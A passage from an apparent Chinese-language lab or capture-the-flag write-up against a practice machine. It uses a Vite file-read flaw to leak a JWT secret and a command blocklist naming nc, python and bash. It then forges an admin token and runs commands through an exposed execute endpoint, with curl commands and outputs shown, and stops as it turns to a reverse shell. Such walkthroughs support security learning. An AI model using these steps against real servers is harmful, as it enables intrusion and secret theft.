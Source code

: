 代码审计发现：

1.  `/api/sign` 接口使用 `process.env.JWT_SECRET` 作为密钥，签发一个角色为 `guest` 的JWT。
2.  `/api/execute` 接口要求请求头中包含有效的JWT，并验证其 `role` 是否为 `admin`，之后会执行 `cmd` 参数传入的命令。

尽管 `vite.config.js` 中配置了 `fs.deny`，但 Vite 在某些版本中存在目录遍历和文件读取漏洞（此靶机环境中为**CVE-2025-30208**），可以绕过该限制。通过特定payload可以读取到 `.env` 文件内容。

> [!Tip]
>
> https://github.com/ThumpBo/CVE-2025-30208-EXP

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -s 'http://192.168.205.149:3000/opt/node/.env?import&raw??'
export default "JWT_SECRET='2942szKG7Ev83aDviugAa6rFpKixZzZz'\nCOMMAND_FILTER='nc,python,python3,py,py3,bash,sh,ash,|,&,<,>,ls,cat,pwd,head,tail,grep,xxd'\n"
```

成功获取到 `JWT_SECRET`：`2942szKG7Ev83aDviugAa6rFpKixZzZz`，以及命令执行的黑名单 `COMMAND_FILTER`。

利用获取到的 `JWT_SECRET`，我们可以伪造一个角色为 `admin` 的JWT。可以访问 [[jwt.cagdastunca.com](https://jwt.cagdastunca.com/)](https://jwt.cagdastunca.com/) 或其他JWT工具来完成此操作。

**伪造的Payload:**

```json
{
  "uid": -1,
  "role": "admin",
  "iat": 1756035331,
  "exp": 1756037131
}
```

**生成的Admin Token:**
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOi0xLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NTYwMzUzMzEsImV4cCI6MTc1NjAzNzEzMX0.meJBbQUW_wJiQBM7FBtF6IIdP0SJrD5Z_tXJoRr6yi0`

使用伪造的Token尝试执行 `id` 命令，验证远程代码执行（RCE）是否成功。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ADMIN_TOKEN="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOi0xLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NTYwMzUzMzEsImV4cCI6MTc1NjAzNzEzMX0.meJBbQUW_wJiQBM7FBtF6IIdP0SJrD5Z_tXJoRr6yi0"
      
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -g -H "Authorization: Bearer $ADMIN_TOKEN" "http://192.168.205.149:3000/execute?cmd=id"
{"status":"executed","data":{"stdout":"uid=1000(runner) gid=1000(runner) groups=1000(runner)\n","stderr":""}}
```

命令成功执行，当前用户为 `runner`。

# **三、获取反弹Shell**

为了获得一个交互式的Shell，我们准备进行反弹Shell操作。通过执行 `busybox` 命令，可以查看目标系统支持的工具。
